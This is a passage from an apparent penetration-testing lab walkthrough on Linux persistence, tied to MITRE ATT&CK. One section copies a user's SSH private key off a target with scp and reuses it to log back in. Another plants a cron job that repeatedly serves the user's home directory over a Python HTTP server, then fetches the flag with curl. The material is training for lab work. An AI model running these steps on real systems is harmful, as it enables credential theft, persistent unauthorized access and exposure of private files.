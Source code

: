 ```shell
ping -c 1 <target_IP>
nmap -sV <target_IP>
ssh student@<target_IP>

# Enumerate files present in home directory.
ls -al
# SSH key pair is present in the “.ssh” directory.

# Exit SSH session and copy ssh private key to attacker machine.
scp student@<target_IP>:~/.ssh/id_rsa .

# SSH into student machine and delete the wait file.
ssh student@<target_IP>
rm wait # The SSH session is terminated.

# SSH into the target machine with the private key.
chmod 400 id_rsa
# In short: It secures your private key by making it readable only by you and no one else.
ssh -i id_rsa student@<target_IP>

# Retrieve the flag.
ls -l
cat flag.txt
```

### 7.2. Persistence Via Cron Jobs - Local Job Scheduling ⚗️

Local Job Scheduling refers to the ability to create pre-scheduled and periodic background jobs using various mechanism (e.g cron, launchd). Adversaries may use task scheduling to execute programs at system startup or on a scheduled basis for persistence.

**Reference:** https://attack.mitre.org/techniques/T1053/

**Objective:** Maintain access on the target machine after the credentials are modified. Schedule a popular HTTP python server module to achieve this. Finally, retrieve the flag from the target machine.

The SSH login credentials are provided in the challenge description:
- Username: student
- Password: password

```shell
ping -c 1 <target_IP>
nmap -sV <target_IP>
ssh student@<target_IP>

# Check the running processes.
ps -eaf # Cron service is running.

# Create a cron job which will use the SimpleHTTPServer python module to serve the files present in student user’s home directory.
echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron
crontab -i cron
crontab -l

# Exit the session. Login and delete the wait file.
ssh student@<target_IP>
rm wait

# Retrieve the flag.
curl demo.ine.local:8000
curl demo.ine.local:8000/flag.txt

# Use nmap to scan for open ports. Since the HTTP server was started, port 8000 should be open.
```